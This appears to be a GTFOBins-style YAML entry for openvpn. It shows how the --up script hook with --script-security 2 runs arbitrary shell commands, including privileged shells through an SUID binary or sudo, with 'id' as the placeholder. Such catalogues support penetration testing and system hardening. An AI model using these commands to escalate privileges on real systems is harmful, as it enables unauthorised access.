 ```yaml
---
functions:
  command:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
  suid:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -p -c \"$COMMAND\""
  sudo:
    - code: |
        COMMAND='id'
        sudo openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
---
```

